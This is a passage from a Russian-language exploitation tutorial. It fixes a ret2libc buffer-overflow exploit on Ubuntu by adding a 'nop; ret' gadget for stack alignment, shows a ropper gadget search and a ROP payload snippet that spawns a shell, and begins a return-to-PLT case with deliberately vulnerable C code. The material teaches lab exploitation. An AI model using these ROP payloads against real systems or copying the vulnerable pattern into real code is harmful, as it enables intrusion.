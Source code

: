 [![ret2libc-pwn-peda-3.png]({{ "/img/pwn-kingdom/bitterman/ret2libc-pwn-peda-3.png" | relative_url }})]({{ "/img/pwn-kingdom/bitterman/ret2libc-pwn-peda-3.png" | relative_url }})
{: .center-image}

И вот здесь программа крашится. В чем дело?

На самом деле, все просто: начиная с версии 18.04 и по настоящий момент (версия 19.10), в дистрибутиве Ubuntu используется ревизия библиотеки GLIBC, содержащая инструкцию `movaps` в реализации некоторых функций — в том числе `do_system` (ядро функции `system`). В 64-битном ассемблере эта инструкция [требует](https://stackoverflow.com/a/54399217), чтобы стек был выравнен на 16-байтную границу при передаче управления таким функциям. «Выравнен на 16-байтную границу» — то же самое, что «значение RSP делится на 0x10», а у нас это значение равно `0x7fffffffded8`. Подробности об этой особенности можно найти в этом [посте](https://ropemporium.com/guide.html) по ключевой фразе The MOVAPS issue.

Решение тривиально: добавить к нашему пейлоаду гаджет с инструкцией NOP (`nop; ret`) или просто еще один `ret`. Это увеличит стек на одну ячейку (8 байт), тем самым уменьшив значение адреса его вершины (так как стек растет вниз). Именно столько нам нужно, чтобы значение RSP делилось на 0x10: `0x7fffffffded8 - 0x8 = 0x7fffffffded0`.

Найдем местоположение гаджета с NOP-ом.

```
$ ropper --file ret2libc --arch x86_64 --search 'nop; ret'
[INFO] Load gadgets from cache
[LOAD] loading... 100%
[LOAD] removing double gadgets... 100%
[INFO] Searching for gadgets: nop; ret

[INFO] File: ret2libc
0x00000000004010af: nop; ret;
```

И модифицируем наш пейлоад.

```python
...
nop_gadget = p64(0x4010af)
payload = junk + pop_rdi_gadget + bin_sh_addr + nop_gadget + system_addr + exit_addr
...
```

Теперь все работает, как нужно, и я получаю честно заработанный шелл.

[![ret2libc-pwn-success.png]({{ "/img/pwn-kingdom/bitterman/ret2libc-pwn-success.png" | relative_url }})]({{ "/img/pwn-kingdom/bitterman/ret2libc-pwn-success.png" | relative_url }})
{: .center-image}

Го ласт кейс!

## Кейс № 3. Return-to-PLT

Уязвимый исходный код.

```c
/**
 * Buffer Overflow (64-bit). Case 3: Return-to-PLT
 * Compile: gcc -g -fno-stack-protector -no-pie -o ret2plt ret2plt.c
 * ASLR: On
 */

#include <stdio.h>

void rop_gadgets() {
	asm("pop %rdi; ret");
	asm("nop; ret");
	asm("ret");
}

void vuln() {
```

[//]: # (2019-10-23)